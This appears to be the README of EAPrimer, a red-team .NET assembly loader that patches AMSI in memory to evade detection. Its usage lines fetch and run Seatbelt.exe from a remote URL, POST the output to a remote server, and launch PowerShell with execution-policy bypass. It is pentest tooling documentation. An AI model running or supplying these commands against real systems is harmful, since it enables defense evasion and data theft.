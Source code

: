 # EAPrimer

EAPrimer can be used to load .Net assemblies from a filepath or URL. On startup, it will attempt to perform in-memory patching of AMSI to bypass detection. By default, output is written to the console, however, this can be directed to a file or even sent via HTTP POST request to a remote server.

The latest, compiled version of the code is available <a href="bin/">here</a>.

#### Usage:
Execute remote file with arguments and send output to server:
```text
EAPrimer.exe -path=https://192.168.1.2/Seatbelt.exe -post=https://192.168.1.2 -args="-group=all"
```

Execute local file with arguments and write output to file:
```text
EAPrimer.exe -path=.\Seatbelt.exe -post=results.txt -args="-group=all"
```


## Invoke-EAPrimer.ps1
The main purpose for writing EAPrimer.exe was to act as a support, or "Primer", for executing assemblies. Ultimately allowing for an "execute_assembly" module in pentest frameworks such as <a href="https://github.com/m8sec/ActiveReign">ActiveReign</a> and <a href="https://github.com/byt3bl33d3r/CrackMapExec">CrackMapExec</a>. The PowerShell script allows for added flexibility to create these modules  *(coming soon)*.

#### Usage:
```powershell
powershell -exec bypass
Import-Module .\Invoke-EAPrimer.ps1
Invoke-EAPrimer -Path .\Seatbelt.exe -Args -group=all
```

## Credit
This was one of my first deep dives into C# and much of the heavy lifting was already done by these guys:
* <a href="https://twitter.com/Flangvik">Flangvik</a> - <a href="https://github.com/Flangvik/NetLoader">NetLoader</a>
* <a href="https://twitter.com/_RastaMouse/">_RastaMouse</a> - <a href="https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs">AMSI Bypass</a>

## Notes
* Built with .Net 4.0
* Checkout <a href="https://github.com/Flangvik/SharpCollection">SharpCollection</a> for hosted payloads to test it out!

